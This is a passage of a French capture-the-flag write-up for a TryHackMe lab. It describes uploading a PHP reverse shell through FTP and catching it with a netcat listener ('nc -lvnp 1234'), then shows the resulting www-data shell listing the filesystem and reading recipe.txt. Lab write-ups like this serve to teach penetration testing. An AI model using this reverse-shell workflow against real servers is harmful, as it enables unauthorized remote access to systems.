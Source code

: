 On télécharge un reverse shell en php.    
On configure le reverse shell.    
On téléverse le reverse shell dans le répertoire ftp.     

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1234
listening on [any] 1234 ...

```

On écoute le port.

![page3](./Task1-03.png)

On le reverse shell.

```bash
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ cd /
$ ls
bin
boot
dev
etc
home
incidents
initrd.img
initrd.img.old
lib
lib64
lost+found
media
mnt
opt
proc
recipe.txt
root
run
sbin
snap
srv
sys
tmp
usr
vagrant
var
vmlinuz
vmlinuz.old
$ cat recipe.txt
```